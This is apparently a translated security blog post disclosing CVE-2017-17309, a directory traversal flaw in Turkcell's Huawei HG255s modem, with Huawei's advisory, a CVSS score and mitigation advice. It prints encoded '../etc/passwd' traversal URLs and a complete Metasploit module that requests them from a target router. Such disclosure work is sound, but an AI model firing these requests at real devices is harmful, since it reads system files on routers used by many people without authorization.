



# 华为 HG255s 产品中的目录遍历漏洞

> 原文：<https://infosecwriteups.com/directory-ttraversal-vulnerability-in-huawei-hg255s-products-dce941a1d015?source=collection_archive---------1----------------------->



华为 HG255s

我想谈谈我们过去发现的一个漏洞。我想重新发布这个不错的安全研究，这样它就可以在我的博客上。我们发现的这个产品实际上属于 Turkcell，它是土耳其的一家国内互联网基础设施提供商。它将这种调制解调器作为标准调制解调器提供给互联网用户。这就是为什么我们可以说有数百万人在使用它。此外，华为还专门为 Turkcell 开发了这款产品。因此，考虑针对某个国家使用的特定产品的网络攻击的可能性。幸运的是，我们善意的安全研究人员已经报告了这一情况。当我们对该产品进行安全研究时，我们注意到了目录遍历漏洞并报告了该漏洞。我甚至为这个漏洞开发了一个 metasploit 模块。

目录遍历，也称为“文件路径遍历”或“点点斜杠”，是一种漏洞，使得攻击者能够访问存储在 web 应用程序根目录之外的文件和目录。当 web 应用程序没有正确验证用户输入时，就会出现此漏洞，使得攻击者能够操纵文件路径来访问根目录以外的文件和目录。

例如，考虑一个允许用户将图像上传到“照片”目录的 web 应用程序。如果 web 应用程序没有正确验证上传图像的文件路径，攻击者可能会上传带有恶意文件路径的图像，例如“../../etc/passwd "，试图访问系统的密码文件。这种类型的攻击是可能的，因为“../”序列告诉 web 应用程序向上一级目录。通过使用多个“../”序列，攻击者可以遍历多个级别，并可能访问存储在 web 应用程序根目录之外的敏感文件和目录。

为了防止目录遍历漏洞，对于 web 开发人员来说，正确验证和净化用户输入以确保它不包含任何恶意文件路径是非常重要的。这可以通过使用输入验证、白名单和净化等技术来实现。通过对敏感文件和目录设置适当的权限来防止未经授权的访问，从而适当地保护文件系统也很重要。

安全漏洞的原因是什么？

当您检查下面的 metasploit 模块时，4 个不同的目录受到此漏洞的影响；

```
'/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/lib/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/res/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/css/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd'
```

> **华为为我们发布的文章:**

华为注意到安全研究员 Ahmet Mersin 披露了华为 HG255s 中的一个**目录遍历漏洞**。在此之前，安全研究人员 Bar aryldlrm、Ahmet Mersin 和 Ismail Tasdelen 已经向华为 PSIRT 发送了该漏洞。华为立即展开彻查。

华为已经完成调查。**华为 HG255s** 受此漏洞影响(**CVE-2017–17309**)，华为已经向受影响的运营商提供了修复方案。运营商发布了一个固定版本。受影响的产品将收到系统更新提示，用户可以安装更新来修复漏洞。



CVE-2017–17309

我们对巴尔扎尔德勒姆、艾哈迈德·梅尔辛和伊斯梅尔·塔斯德伦对华为产品的关注表示感谢。

> **概念验证视频:**

漏洞 0lab youtube 频道

> **CVSS 评分:**

*基础分:***7.5 高**

**CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N**

> ***Metasploit 代码:***

```
*##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#
##

class MetasploitModule < Msf::Auxiliary
   include Msf::Exploit::Remote::HttpClient

   def initialize
       super(
           'Name'        => 'Huawei HG255 Directory Traversal',
           ‘Description’ => ‘Server Directory Traversal at Huawei HG255 by malicious GET requests’,
           ‘Author’      => ‘Ismail Tasdelen’,
           ‘License’     => MSF_LICENSE,
           ‘References’     =>
           [
              ['CVE', '2017-17309' ],
              ['URL', 'https://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en']
           ]
       )
       register_options(
           [
               Opt::RPORT(80)
           ], self.class
       )
   end

   def run
       urllist=[
           ‘/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/lib/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/res/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/css/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’]

       urllist.each do |url|
           begin
               res = send_request_raw(
               {
                       ‘method’=> ‘GET’,
                       ‘uri’=> url
               })

               if res
                   print_good(“Vulnerable! for #{url}”)
               else
                   print_status(“Vulnerable(no response) detected for #{url}”)
               end
           rescue Errno::ECONNRESET
               print_status(“Vulnerable(rst) detected for #{url}”)
           rescue Exception
               print_error(“Connection failed.”)
           end
       end
   end*
```

> ***修改历史:***

*2018–06–06v 1.1 更新更新安全公告描述信息*

*2017 年 9 月 11 日 1.0 版初始*

> ***感谢信:***

**

***致谢函***

> ***参考文献:***

*[](https://nvd.nist.gov/vuln/detail/CVE-2017-17309) [## NVD

### 已修改自 NVD 上次分析以来，此漏洞已被修改。它正在等待重新分析…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-17309) [](https://github.com/exploit-labs/huawei_hg255s_exploit) [## GitHub-exploit-labs/华为 _hg255s_exploit:🚀华为 HG255s ☄️的服务器目录遍历…

### 🚀华为 HG255s ☄️的服务器目录遍历- CVE-2017-17309🚀-GitHub-exploit-labs/Huawei _ Hg 255s _ exploit:🚀…

github.com](https://github.com/exploit-labs/huawei_hg255s_exploit) [](http://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en) [## 华为-sn-20170911-01-hg255s-en

### 本网站使用 cookies。通过继续浏览网站，您同意我们使用 cookies。阅读我们的隐私…

www.huawei.com](http://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en) [](https://www.exploit-db.com/exploits/47923) [## 攻击性安全利用数据库档案

### 华为 HG255 -目录遍历(Metasploit)..硬件平台的 webapps 漏洞

www.exploit-db.com](https://www.exploit-db.com/exploits/47923)  [## 安全漏洞研究实验室

### 安全漏洞研究实验室

漏洞实验室-LABORATORYwww.vulnerability-lab.com 安全漏洞研究](https://www.vulnerability-lab.com/show.php?user=Ismail+Tasdelen) 

BB-8 机器人

在这篇文章中，我谈到了我们发现的漏洞和我开发的利用程序。保重，在我的下一篇文章中再见。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*